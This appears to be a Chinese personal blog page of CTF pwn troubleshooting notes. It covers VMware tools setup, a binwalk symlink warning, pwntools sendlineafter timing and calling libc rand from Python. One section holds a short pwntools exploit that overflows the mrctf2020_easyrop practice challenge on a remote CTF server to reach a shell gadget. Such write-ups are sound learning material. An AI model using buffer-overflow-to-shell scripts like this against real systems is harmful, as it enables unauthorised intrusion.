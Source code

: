 ```yaml
---
title: 遇到的奇奇怪怪问题汇总
tags: [ctf-pwn,Others]
date: 2022-11-29 21:35:00
categories: [杂项]
excerpt: 解决或未解决的奇怪问题
---
```


**vmware自带的vmtools安装了也复制不进来**

虚拟机执行命令

```
sudo apt-get install open-vm-tools-desktop
```

如果拖放文件的时候出现了

![](/img/problems/1.jpg)

```
sudo gedit /etc/gdm3/custom.conf
```

将`WaylandEnable=false`注释掉

据说是vmware还没有支持ubutnu22.04的默认桌面Wayland

#### sleep ？

题目：

<https://buuoj.cn/challenges#mrctf2020_easyrop>

本来是很简单的一个溢出

```python
from pwn import *
from time import sleep
#r = process('./mrctf2020_easyrop')
r = remote('node4.buuoj.cn',25663)
system_sh =0x000000000040072A
r.sendline(b'2')
#sleep(1)
r.sendline(b'a'*0x300)
r.sendline(b'7')
#sleep(1)
r.sendline(b'a'* 0x12 + p64(system_sh))
r.interactive()
```

但是不加sleep无法通过

有人说是python同时发送多个字符串时会合并(?)

那什么时候情况下需要在sendline前面加一个sleep

​    [已解决] 打本地不加应该没事，打远程的时候肯定会有一点延迟，假如没有sendafter这一类的发送，就可能会造成后面的也一起发送了，所以每次写exp发送的时候最好用sendafter或者sendlineafter这样的话就不需要再担心sleep(1)了

----------------------------------------------------------------------------------



#### binwalk提取固件时快捷方式指向/dev/null

binwalk提取固件时会有一个warning

```
WARNING: Symlink points outside of the extraction directory: /home/kali/Desktop/dir815_FW_101/_DIR-815 FW 1.01b14_1.01b14.bin.extracted/squashfs-root/htdocs/web/dlcfg.cgi -> /htdocs/cgibin; changing link target to /dev/null for security purposes.
```

用到这个快捷方式时要修改一下



#### sendlineafter的问题

要加上换行符`\n`，否则匹配不上

```
p.sendlineafter(b'Input your Plaintext to be encrypted\n',...)
```



#### python调用c库函数

```python
cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6").rand()%6 + 1
```

